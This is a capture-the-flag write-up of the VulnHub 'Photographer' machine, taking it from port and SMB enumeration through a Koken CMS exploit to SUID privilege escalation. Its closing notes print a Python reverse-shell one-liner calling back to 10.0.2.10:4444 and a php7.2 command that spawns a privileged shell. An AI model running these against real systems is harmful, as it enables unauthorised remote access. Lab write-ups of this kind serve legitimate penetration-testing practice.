 ```yaml
---
title: Photographer
categories: [VulnHub]
tags: [CMS, PrivEsc, RFI, SUIDs, SMB]
image:
  path: https://www.infosecarticles.com/content/images/2020/09/port80-1.png
  alt: Photographer Machine 📷
---
```


## **Description ⤵️**


💡 [Photographer : 1](https://vulnhub.com/entry/photographer-1,519/) ⤵️

This machine was developed to prepare for OSCP. It is boot2root, tested on VirtualBox (but works on VMWare) and has two flags: user.txt and proof.txt.



### **Let’s find the IP Address first >>**

```bash
IP : 10.0.2.25
```

## Port Scan Results ➡️

![124-1.png](/Vulnhub-Files/img/Photographer/124-1.png)

![124-2.png](/Vulnhub-Files/img/Photographer/124-2.png)

```bash
OPEN PORTS >
80   HTTP
139  SMB
445  SMB
8000 HTTP
```

---

## Web Enumeration ⤵️

![125-1.png](/Vulnhub-Files/img/Photographer/125-1.png)

Lets first do some directory traversal →

![127-1.png](/Vulnhub-Files/img/Photographer/127-1.png)

![125-2.png](/Vulnhub-Files/img/Photographer/125-2.png)

![125-3.png](/Vulnhub-Files/img/Photographer/125-3.png)

Lets check the SMB part →

![128-1.png](/Vulnhub-Files/img/Photographer/128-1.png)

![128-2.png](/Vulnhub-Files/img/Photographer/128-2.png)

![128-3.png](/Vulnhub-Files/img/Photographer/128-3.png)

```bash
Lets try these credentials → 
→ agi@photographer.com
→ daisa@photographer.com
→ my babygirl
So the final credentials were → 
ID     : daisa@photographer.com
pass : babygirl
```

![128-4.png](/Vulnhub-Files/img/Photographer/128-4.png)

Now after login to koken site Let is further Enumerate →

![125-4.png](/Vulnhub-Files/img/Photographer/125-4.png)

Let is follow the exploit path →

![125-5.png](/Vulnhub-Files/img/Photographer/125-5.png)

![125-6.png](/Vulnhub-Files/img/Photographer/125-6.png)

got the results →

![125-7.png](/Vulnhub-Files/img/Photographer/125-7.png)

Then I executed the python reverse shell code and I got this →

![126-1.png](/Vulnhub-Files/img/Photographer/126-1.png)

![126-2.png](/Vulnhub-Files/img/Photographer/126-2.png)

```bash
user.txt → d41d8cd98f00b204e9800998ecf8427e
```

while cheching the SUID file I got this →

![126-3.png](/Vulnhub-Files/img/Photographer/126-3.png)

![126-4.png](/Vulnhub-Files/img/Photographer/126-4.png)

![126-5.png](/Vulnhub-Files/img/Photographer/126-5.png)

![126-6.png](/Vulnhub-Files/img/Photographer/126-6.png)

```bash
proof.txt → d41d8cd98f00b204e9800998ecf8427e
```

<hr>
<br>

# **Summery Notes →**

> 💡
>Koken 0.22.24
>
>daisa@photographer.com
>
>agi@photographer.com
>
> ```bash
> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
> ```
> 
> `.**/**usr**/**bin**/**php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"`
{: .prompt-tip }

<hr>